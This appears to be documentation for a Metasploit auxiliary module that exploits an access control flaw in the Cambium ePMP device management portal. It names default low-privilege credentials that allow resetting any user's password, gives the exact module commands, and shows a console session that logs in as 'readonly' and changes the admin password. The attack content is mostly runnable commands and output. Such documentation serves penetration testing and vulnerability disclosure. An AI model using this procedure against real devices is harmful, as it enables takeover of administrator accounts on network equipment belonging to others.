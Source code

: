 This module exploits an access control vulnerability in Cambium ePMP device management portal. It requires any one of the following non-admin login credentials - installer/installer, home/home, readonly/readonly - to reset password of other existing user(s) including 'admin'. All versions <=3.5 (current as of today) are affected. The module has been tested on versions 3.0-3.5-RC7.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_reset_pass```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set TARGET_USERNAME admin```
5. Do: ```set NEW_PASSWORD newpass```
6. Do: ```run```

## Scenarios

  ```
msf > use use auxiliary/scanner/http/epmp1000_reset_pass
msf auxiliary(epmp1000_reset_pass) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_reset_pass) > set rport 80
msf auxiliary(epmp1000_reset_pass) > set TARGET_USERNAME admin
msf auxiliary(epmp1000_reset_pass) > set NEW_PASSWORD newpass
msf auxiliary(epmp1000_reset_pass) > run

[+] 1.3.3.7:80 - Running Cambium ePMP version 3.5...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "readonly":"readonly"
[*] 1.3.3.7:80 - Changing password for admin to newpass
[+] Password successfully changed!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
